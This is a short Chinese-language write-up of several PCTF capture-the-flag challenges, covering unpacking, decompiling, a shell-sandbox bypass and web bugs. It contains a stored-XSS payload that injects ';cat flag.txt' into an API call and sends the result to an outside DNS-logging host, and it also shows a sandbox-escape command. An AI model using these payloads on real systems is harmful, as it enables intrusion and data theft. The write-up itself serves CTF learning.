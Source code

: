 ## rev
### revioli, revioli, revioli / ez
这个题给的二进制程序会把目标字符串在内存里拼出来，可以gdb下断点之后在内存里搜出来

### password protecter / ez
给了一个3.11的pyc，关于pycdc的问题之前讲过了。反编译之后基本就是一个`lambda c: chr(ord(c) + 1)`加一个循环异或

### Packed Full Of Surprise / ez
给了一个加壳的二进制和输出，要求还原输入。我一开始的做法是还原到开始输入时dump内存。从此时的脱壳代码可以找到几个SHA1 magic number，并且从strace可以看出引入了OpenSSL的库。然后我觉得可能这题可能不用强攻，果然每个明文只会影响一个密文，全爆一遍就出来了

结果从flag发现原来这玩意是UPX壳，`PCTF{UPX_15_2_3A$y_t0_uNp4cK}`，脱壳之后直接可读了，确实是逐个字节加密（流密码？）

### AI? PRNG / ez
同样是根据输出还原输入，同样是流密码。过。

## misc
### Making Baking Pancakes / ez
按要求编程的题，只是单纯的base64解密而已。评价为pwntools练习题

### Really Only Echo / ez
绕过一个shell沙盒。基本的检查有两点：排除了`$()|&;<>`，然后split后不能出现`ls /bin`（echo除外），至少出现一次echo。

但是没有排除`/#`和引号，也就意味着`/bin/bash -c "cat flag.txt" # echo`是合法的命令。

## web
### giraffe notes / ez
给了php源码，加个XFF头就行了。感觉应该放beginner
### open seasame / ez
简单的XSS题。BOT只能访问子网的URL。子网有命令执行权限（也是个简单的shell拼接）的节点需要cookie。但是子网的端口也暴露出来了（没公开，可能是要自己试出来），可以往数据库里存储内容，并且访问时是以`text/html`的MIME访问的。因此可以构造持久XSS。

```html
<script>fetch("/api/cal?modifier=;cat+flag.txt", {
    credentials: "include",
}).then((resp)=>(resp.text())).then((s)=>{
    console.log(s);
    var dnslog = s.slice(213,223).split("").map(c=>c.charCodeAt(0).toString(16)).join(".");
    fetch("http://" + dnslog + ".31f767c0.log.dnslog.biz", {
        mode: "no-cors"
    });
})</script>
```

### impersonate / nm
出的比较乱的一道题。访问flag的endpoint似乎需要session伪造。这个题flask的secret_key是和服务器启动时间有关的常量，而服务器提供了节点暴露出服务器uptime和current_time。注意考虑小数问题有±1秒误差。
